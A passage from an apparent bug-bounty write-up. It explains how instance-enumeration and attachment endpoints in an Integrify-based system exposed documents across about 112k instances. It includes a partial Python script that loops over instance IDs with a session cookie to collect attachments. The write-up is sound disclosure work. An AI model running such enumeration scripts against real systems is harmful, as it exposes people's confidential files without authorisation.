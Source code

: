 Actually, when clicking on the attachment and intercepting requests, another undocumented API endpoint is used, and behaves the same way, so we have two entry points the retrieve documents.

Now that we know how to get attachments, we simply need to get the list of all instances, automate that, and it should work! According to the documentation, there is an [API endpoint](https://developer.integrify.com/rest/Instances/instance-monitor-list) that allows to enumerate all instances where the current user has monitor permissions. Let's see what we get by sending a request to it.
<div class="col-sm mt-3 mt-md-0">
  {% include figure.html path="assets/img/BUGBOUNTY/01/bug_bounty_01_attachments_7.png" class="img-fluid rounded z-depth-1" zoomable=true%}
</div>

By reading the name of the document, I knew this was juicy stuff. In addition, we have a total of 112k instances, so we probably will get many attachments available.

I wrote a short script that fetches files : 
{% highlight python %}
import requests
import json

# Sanitized short list of instances which contains attachments
instance_ids = [
    "12345678-1234-1234-1234-123456789012",
    # ... ,
    "12345678-4321-4321-4321-123456789012"
]

# Iterate over all instances
for instance_id in instance_ids:
    # Send request and read response
    url = 'https://redacted.com/napi/instances/' + instance_id + '/comments/'
    cookies = {'iapi_token':'access%26oauth_token%3D123456789%26oauth_token_secret%3D00000'}
    response = requests.get(url, cookies=cookies)

    # Just in case
    if not "AttachmentName" in response.text:
        continue

    # Read JSON response (also possible with response.json())
    data = json.loads(response.text)
    for item in data['Items']:
        # Get data, and jump to next iteration if no attachment, we never know
        subject     = item['Subject']
        date        = item['CommentDate']
        attachments = item['Attachments']
        if not attachments:
            continue

        # Iterate over all attachments for a given intsance
        for attachment in attachments:
            name    = attachment['AttachmentName']
            sid     = attachment['AttachmentSID']
